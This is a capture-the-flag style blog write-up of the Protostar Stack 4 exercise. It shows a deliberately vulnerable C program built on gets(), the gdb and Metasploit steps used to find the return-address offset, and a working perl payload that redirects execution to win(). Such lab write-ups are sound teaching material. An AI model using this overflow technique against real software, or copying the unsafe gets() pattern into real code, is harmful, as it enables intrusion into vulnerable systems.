 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Stack 4"
date: 2011-12-16T05:52:00-05:00
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


With [this](http://exploit-exercises.com/protostar/stack4) challenge, I think things really start to get fun, and more real-world.  We are provided with the following C program:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
 printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```

This C app will simply read a value from user input, and store it in "buffer".  We then need to get it to somehow execute "win()". 

To get started, just like in the last challenge, I used objdump to find out where "win()" was located:

```
user@protostar:/opt/protostar/bin$ objdump -d stack4
...
080483f4 <win>:
...
```

Because we're going to need to modify the EIP of this program, we need to find where it is.  You may want to think that it would be immediately after the 64 bytes of the "buffer" array, however this is often times extra space due to null terminators, return values, and more.  So I use some tools from the [Metasploit Framework](http://metasploit.com) on another machine to find the EIP. 

First, I generate a unique string, using the pattern_create tool:

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 128
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
```

Then I execute the vulnerable program in gdb, feeding it the unique string to the input:

```
user@protostar:/opt/protostar/bin$ gdb --quiet ./stack4
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) run
Starting program: /opt/protostar/bin/stack4
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```

Now I know that the EIP contains the value 0x63413563.  I can go back to the Metasploit tools and run the pattern_offset tool to tell me the offset of the EIP:

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x63413563
76
```

This tells me that unlike the 64 characters I would have thought, it's actually offset by 76 characters.  So now we just have to get the address of "win()" (0x080483f4) into the EIP at 76 bytes offset:

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x76 . "\xf4\x83\x04\x08"' | ./stack4
code flow successfully changed
Segmentation fault
```

There you have it.  We get the execution from "win()".